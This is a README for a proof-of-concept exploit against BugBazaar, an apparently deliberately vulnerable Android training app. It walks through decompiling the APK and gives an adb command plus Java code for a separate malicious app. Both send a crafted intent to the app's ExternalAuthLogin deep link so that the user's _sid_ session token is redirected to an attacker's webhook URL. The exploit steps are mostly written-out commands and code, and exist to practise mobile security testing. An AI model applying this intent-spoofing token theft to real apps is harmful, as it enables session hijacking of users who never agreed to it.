 # Intent Spoofing
This project can be used to exploit Intent Spoofing vulnerability in [BugBazaar](https://github.com/payatu/BugBazaar)

### How to exploit Intent Spoofing?
1. Install BugBazaar application on device
2. Decompile BugBazaar apk via Jadx-gui
3. Goto AndroidManifest.xml file and search for ExternalAuthLogin
4. You can see intent filters set for ExternalAuthLogin class
5. Goto ExternalAuthLogin class and analyse the code. It can be seen that, this class expect a string extra in return for intent value
6. Run following ADB command:
	- adb shell am start -d "bugbazaar://externalAuthentication" --es ExternalAuthLoginActivity.EXTRA_REDIRECT_URL https://webhookurl
7. Add your webhook url here and check the logs of webhook. You can see the _sid_ token.
8. To exploit this vulnerability via other app, create a new android project with empty activity.
9. In MainActivity.java, add following code under onCreate method:
	
        // Create a new Intent
        Intent intent = new Intent();

        // Set the action and data URI for the Intent
        intent.setAction(Intent.ACTION_VIEW);
        intent.setData(Uri.parse("bugbazaar://externalAuthentication"));

        // Add extra data to the Intent
        intent.putExtra("ExternalAuthLoginActivity.EXTRA_REDIRECT_URL", "https://webhookurl");

        // Start the activity using the Intent
        startActivity(intent);

10. Replace your webhook url here. 
11. Run this application on same device where BugBazaar is installed.
12. Check the webhook logs and you will see the _sid_ token.	
